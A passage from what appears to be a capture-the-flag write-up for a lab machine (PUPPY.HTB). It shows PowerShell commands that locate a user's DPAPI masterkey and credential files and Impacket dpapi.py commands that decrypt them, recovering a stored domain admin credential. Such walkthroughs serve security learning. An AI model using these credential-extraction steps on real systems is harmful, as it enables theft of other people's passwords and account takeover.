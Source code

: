 And I didn't see anything too useful there, so the next step was to try finding credentials in DPAPI.

```powershell
gci -Force -Recurse $env:USERPROFILE/AppData/Roaming/Microsoft/Protect | Format-List
gci -Force -Recurse $env:USERPROFILE/AppData/Roaming/Microsoft/Credentials

# Masterkey
File:             C:\Users\steph.cooper\AppData\ROaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407

# Credential
File:             C:\Users\steph.cooper\AppData\ROaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9
```

Those two files are what we need, so we'll download them and utilize pypykatz to crack them locally.

```bash
dpapi.py masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password "$STEPH_COOPER_PASS"
 Impacket v0.11.0 - Copyright 2023 Fortra
 
 [MASTERKEYFILE]
 Version     :        2 # (2)
 Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
 Flags       :        0 # (0)
 Policy      : 4ccf1275 # (1288639093)
 MasterKeyLen: 00000088 # (136)
 BackupKeyLen: 00000068 # (104)
 CredHistLen : 00000000 # (0)
 DomainKeyLen: 00000174 # (372)
 
 Decrypted key with User Key (MD4 protected)
 Decrypted key: 0xd9a5<REDACTED>0e137b7413c1414c452f9c77d6d8a8ed9efe3eca<REDACTED>9e8ba99b31cdb7abad28408d8<REDACTED>e9c84

####
dpapi.py credential -file $CREDENTIAL_FILE -key $DPAPI_MASTER_KEY 

Impacket v0.11.0 - Copyright 2023 Fortra

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description :
Unknown     :
Username    : steph.cooper_adm
Unknown     : <REDACTED>
```
